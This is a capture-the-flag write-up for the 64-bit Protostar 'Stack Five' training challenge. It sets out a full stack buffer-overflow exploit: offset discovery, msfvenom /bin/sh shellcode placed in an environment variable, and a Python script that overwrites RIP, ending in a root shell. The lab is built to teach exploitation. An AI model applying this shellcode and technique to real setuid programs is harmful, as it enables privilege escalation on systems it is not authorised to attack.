

#Protostar x64 - Stack Five
https://exploit.education/protostar/stack-five/
NOTE 1: Protostar doesn't offer 64-bit versions of the challenges itself. I set it up myself. For setup, refer here
NOTE 2: I'm writing the 64-bit write-ups as follow-ups to the 32-bit challenges, so I won't be going over the intricacies of the exploit, just the differences involved with it now being a 64-bit challenge instead of 32-bit

The goal of Stack Five is to overflow the buffer variable, drop shellcode to the stack and overwrite RIP to jump to our shellcode, resulting in a shell.
Info - Drop shellcode to the stack
There are 3 ways to drop shellcode to the stack:
• Write shellcode within buffer
• Write shellcode after buffer
• Write shellcode into environment variable
I had trouble with the first two, so in this challenge I wrote my shellcode to an evnvironment variable and jumped to it.
1) Find offset to RIP
First, find the offset to overwrite RIP.
Create a cyclic pattern with msf-pattern_create, open the binary in GDB and submit the pattern.
Examine the value in RSP to find the cyclic pattern that will overwrite RIP.
user@ubuntu:~/protostar64/bin$ gdb -q stack5
Reading symbols from /home/user/protostar64/bin/stack5...(no debugging symbols found)...done.
(gdb) run
Starting program: /home/user/protostar64/bin/stack5
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Program received signal SIGSEGV, Segmentation fault.
0x0000000000400510 in main ()
(gdb) x/xg $rsp
0x7fffffffe4e8: 0x6341356341346341
┌─[root@parrot]─[/ctf/exploit-education/protostar-x64]
└──╼ #msf-pattern_offset -q 0x6341356341346341
[*] Exact match at offset 72
2) Create shellcode and environment variable
Use msfvenom to generate some shellcode.
Null bytes - 0x00, new lines - 0x0a, and carriage returns - 0x0d, will cause errors so mark those as bad characters.
root@fumble:~# msfvenom -p linux/x64/exec CMD="/bin/sh" -f python -v shellcode -b "\x00\x0a\x0d"
[...]
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 87 (iteration=0)
x64/xor chosen with final size 87
Payload size: 87 bytes
Final size of python file: 501 bytes
shellcode = b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xfa\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\x10\x24\xd8"
shellcode += b"\x6b\xf5\x07\x15\x6a\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\x7a\x1f\x80\xf2\xbd"
shellcode += b"\xbc\x3a\x08\x79\x4a\xf7\x18\x9d\x07\x46\x22"
shellcode += b"\x99\xc3\xb0\x46\x96\x07\x15\x22\x99\xc2\x8a"
shellcode += b"\x83\xfd\x07\x15\x6a\x3f\x46\xb1\x05\xda\x74"
shellcode += b"\x7d\x6a\x46\x73\x90\xe2\x13\x08\x10\x6a"
Create a python file to print out the payload.
#!/usr/bin/python
# msfvenom -p linux/x64/exec CMD="/bin/sh" -f python -v shellcode -b "\x00\x0a\x0d"
# Payload size: 87 bytes
shellcode = b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xfa\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\x10\x24\xd8"
shellcode += b"\x6b\xf5\x07\x15\x6a\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\x7a\x1f\x80\xf2\xbd"
shellcode += b"\xbc\x3a\x08\x79\x4a\xf7\x18\x9d\x07\x46\x22"
shellcode += b"\x99\xc3\xb0\x46\x96\x07\x15\x22\x99\xc2\x8a"
shellcode += b"\x83\xfd\x07\x15\x6a\x3f\x46\xb1\x05\xda\x74"
shellcode += b"\x7d\x6a\x46\x73\x90\xe2\x13\x08\x10\x6a"
print shellcode
Use export to set the PWN environment variable to store our shellcode.
The backticks - ` - execute the code inside them (in this case, execute the python script and take the output as the environment variable)
user@ubuntu:~/protostar64$ export PWN=`python stack5-shellcode.py`
user@ubuntu:~/protostar64$ echo $PWN
H1�H������H�����H�$�k�jH1X'H-������z��yJ��F"�ðF�"���j?F��t}jFs�j
3) Find address of PWN environment variable
We need to know the address of the PWN environment variable so that we can jump to it.
For this, you can use the getenvaddr binary (part of Hacking: The Art of Exploitation) found here - https://github.com/historypeats/getenvaddr
Create and compile getenvaddr binary.
user@ubuntu:~/protostar64$ nano getenvaddr.c
user@ubuntu:~/protostar64$ gcc getenvaddr.c -o getenvaddr
user@ubuntu:~/protostar64$ chmod +x getenvaddr
Run getenvaddr.
user@ubuntu:~/protostar64$ ./getenvaddr PWN bin/stack5
PWN will be at 0x7fffffffeeee
On my target machine, the PWN environment variable is at address 0x7fffffffeeee.
4) Write Exploit
At this point, we have everything we need to write the exploit script.
#!/usr/bin/python
# exploit.education - Protostar x64 - Stack Five
import struct
buffer = 72
PWN_addr = struct.pack('<Q', 0x7fffffffeeee)
payload = "A" * buffer # overflow buffer
payload += PWN_addr # overwrite RIP & jump to PWN environment variable
print payload
5) Win
To keep the spawned shell open to allow us to input commands, use cat.
user@ubuntu:~/protostar64$ (python stack5.py; cat) | bin/stack5
id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(user)
whoami
root